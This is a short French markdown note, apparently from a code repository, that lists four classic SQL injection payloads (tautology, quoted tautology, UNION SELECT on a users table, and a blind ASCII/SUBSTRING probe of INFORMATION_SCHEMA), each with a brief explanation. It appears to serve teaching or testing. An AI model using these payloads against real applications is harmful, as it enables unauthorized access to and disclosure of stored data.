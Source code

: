 # Tentative d'injection SQL dans mon code

## Exemple de cote d'injection SQL
1. Injection SQL simple :

' OR 1=1 --
Cette requête d'injection SQL est vraie pour tous les enregistrements de la base de données, ce qui peut entraîner une divulgation complète des données.

2. Injection SQL avec commentaire :

' OR 'a'='a' --
Cette requête d'injection SQL utilise des commentaires pour masquer le reste de la requête SQL.

3. Injection SQL UNION :

' UNION SELECT * FROM users --
Cette requête d'injection SQL utilise l'opérateur UNION pour combiner les résultats de deux requêtes SQL ou plus en une seule.

4. Injection SQL aveugle :

' OR ASCII(SUBSTRING((SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='users' LIMIT 0,1),1,1))>64 --
Cette requête d'injection SQL utilise une technique d'injection SQL aveugle pour extraire des données de la base de données en envoyant une série de requêtes vraies ou fausses.
     
